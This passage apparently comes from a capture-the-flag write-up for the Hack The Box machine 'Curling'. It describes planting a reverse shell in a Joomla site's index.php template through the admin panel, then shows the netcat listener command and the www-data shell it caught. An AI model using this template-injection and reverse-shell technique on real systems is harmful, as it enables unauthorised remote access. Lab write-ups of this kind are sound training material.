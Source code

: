 ![](joomla-admin-panel.png)

From there, the path to getting a low shell on the box was to edit the template for index.php so that it would execute a reverse shell, visit the homepage, and catch the shell using netcat:

![](edit-template.png)

```shell
matt@kali:~/htb/curling$ sudo nc -nvlp 80
[sudo] password for matt:
listening on [any] 80 ...
connect to [10.10.14.105] from (UNKNOWN) [10.10.10.150] 59280
Linux curling 4.15.0-22-generic #24-Ubuntu SMP Wed May 16 12:15:17 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
    03:12:01 up 4:37, 0 users, load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ pwd
/
```
